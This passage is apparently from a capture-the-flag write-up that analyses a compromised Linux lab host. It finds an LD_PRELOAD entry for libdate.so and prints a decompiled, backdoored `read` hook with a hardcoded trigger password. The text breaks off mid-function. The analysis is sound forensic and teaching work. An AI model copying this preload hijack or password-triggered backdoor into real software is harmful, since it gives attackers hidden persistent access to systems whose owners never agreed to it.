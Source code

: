 ### Enumeration

Another common hacker technique on Linux is to hook functions via `LDPRELOAD`.
The file at `/etc/ld.so.preload` will give a list of files libraries to load
first. Typically this file is empty:

    
    
    sysadmin@compromised:~$ cat /etc/ld.so.preload 
    /lib/x86_64-linux-gnu/libdate.so
    

I’ll pull that back for analysis.

    
    
    root@kali# scp -i ~/keys/ed25519_gen mysql@10.10.10.207:/lib/x86_64-linux-gnu/libdate.so .
    libdate.so                    100%   13KB 155.1KB/s   00:00
    

### Ghidra

Unlike the other file, which was a slightly modified legit library, this `.so`
is attempting to hijack control over certain library calls. Because of it’s
position in preload, if a call is made and it’s in this library, it will run
this one. Otherwise, it will look in normal GLIBC and other shared objects for
the function.

`libdate.so` exports a single function, `read`:

![image-20210118134549437](https://0xdfimages.gitlab.io/img/image-20210118134549437.png)

The `read` function looks like:

[![image-20210118140241107](https://0xdfimages.gitlab.io/img/image-20210118140241107.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20210118140241107.png)

I’ll clean this up. `DAT_00102000` holds the value “read”. `local_38` is a
string that is used like a password.

    
    
    ssize_t read(int __fd,void *__buf,size_t __nbytes)
    
    {
      code *read_libc;
      ssize_t read_ret;
      char *backdoor;
      char password [16];
      
      read_libc = (code *)dlsym(0xffffffffffffffff,&read);
      read_ret = (*read_libc)((ulong)(uint)__fd,__buf,__nbytes,__buf,read_libc);
      password[0] = '2';
      password[1] = 'w';
      password[2] = 'k';
      password[3] = 'e';
      password[4] = 'O';
      password[5] = 'U';
      password[6] = '4';
      password[7] = 's';
      password[8] = 'j';
      password[9] = 'v';
      password[10] = '8';
      password[11] = '4';
      password[12] = 'o';
      password[13] = 'k';
      password[14] = '/';
      password[15] = '\0';
      backdoor = strstr((char *)__buf,password);
      if (backdoor != (char *)0x0) {